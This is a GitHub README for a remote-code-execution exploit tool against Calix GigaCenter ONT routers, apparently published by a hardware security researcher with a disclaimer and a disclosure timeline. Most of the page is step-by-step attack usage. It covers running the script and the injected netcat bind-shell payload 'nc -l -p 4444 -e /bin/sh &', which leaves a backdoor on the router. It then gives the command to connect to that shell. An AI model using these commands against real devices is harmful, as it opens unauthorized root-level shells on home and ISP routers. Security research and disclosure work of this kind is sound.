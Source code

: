 # RCE-Calix-Gigacenter

![tool](tool.png)

Remote Code Execution (RCE) exploit targeting **Calix Gigacenter ONT routers**, specifically tested on the **Calix 844G-1** model. This exploit takes advantage of a zero-day vulnerability discovered in **February 2025**, now assigned as CVE-2025-54084. The affected routers are: Calix GigaCenter ONT 844E, 844G, 844GE, and 854GE. Finally, there are 4 more zero days discovered, if do you want to read more deatils about this RCE vulnerability and the another ones, check the post: https://revers3everything.com/calix-case-five-0-days-five-cves/

## ⚠️ Disclaimer
This tool is intended **only for educational and ethical hacking purposes**.  
Do not use it against any device without **explicit authorization**.  
The author is not responsible for any misuse.

## 🛠️ Installation

Only one dependency is required:

```bash
pip install requests
```

## How to Use

Run the exploit script:

```bash
python3 rce-calix-gigacenter.py
```

Once executed, the exploit will inject the following command into the vulnerable router:

```bash
nc -l -p 4444 -e /bin/sh &
```

You will see a message like:

```
Backdoor into the router, try to connect with netcat to the port 4444!
```

Then, connect to the reverse shell with `netcat`:

```bash
nc 169.254.1.2 4444
```

**Enjoy your shell!**

## Exploit Timeline

- **Zero-day discovered:** February 2025
- **Public disclosure:** June 29, 2025 at Recon Montreal
[demo-exploit](final-rce-poc.webm)

## Author
**Danilo Erazo** (`@revers3vrything`)  
Hardware Security Researcher and Speaker at:
- Hardwear.io USA 2025
- DEFCON 32
- Ekoparty 2024 & 2023
- Re//verse 2025, etc

© 2025 Danilo Erazo (@revers3vrything)
